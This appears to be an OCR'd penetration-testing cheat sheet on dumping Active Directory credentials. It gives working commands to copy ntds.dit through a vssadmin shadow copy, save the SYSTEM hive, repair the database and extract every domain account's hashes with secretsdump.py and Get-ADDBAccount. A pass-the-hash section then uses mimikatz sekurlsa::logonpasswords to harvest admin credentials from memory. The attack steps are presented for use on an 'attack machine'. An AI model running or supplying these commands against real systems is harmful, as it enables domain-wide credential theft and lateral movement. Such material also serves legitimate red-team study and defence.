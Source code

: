 **Download ntds.dit to your attack machine and issue the below command to extract the hashes**

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system.bak LOCAL

=====================================
**VSSADMIN NTDS.DIT EXTRACTION METHOD     **
=====================================

This requires admin rights. If this file is compromised you have password hashes for all the user accounts in the domain.

File is located on domain controllers at C:\Windows\NTDS\ntds.dit

File is always in use by Active Directory. Service would need to be stopped to move the file.

File can also be moved by using shadow copy.
CMD> vssadmin create shadow for 'C:\'

# This creates a copy of entire C Drive. We copy the ntds.dit file out of there to a temp file

CMD> copy \\CopyShadowCopyVolumeNameValueFromAboveOutputAndPlaceHere\Windows\NTDS\ntds.dit C:\Temp\ntds.dit

Everything is encrypted in the dit file with a local system file.
CMD> reg sav HKLM:\SYSTEM C:\Temp\Sys

# This info can be used to decrypt the file

# File was copied while open so we need to repair disk to successfully decrypt database.

CMD> esentutl /p C:\Temp\ntds.dit /!10240 /8 /o
PS> $Key = Get-BootKey -SystemHiveFilePath "C:\temp\SYS"

PS> Get-ADDBAccount -All -BootKey $Key -DbPath "C:\Windows\ntds.dit" | Out-File C:\Temp\UncrackedInfo.txt

============================================

|                                    PASS THE HASH                                     |

============================================

If a user account has admin rights to a system, those rights can be used to view other creds stored in memory.

Those newly found admin creds can than be used to access remote machines.
mimikatz # sekurlsa::logonpasswords

# Find admin accounts to exploit from above output.

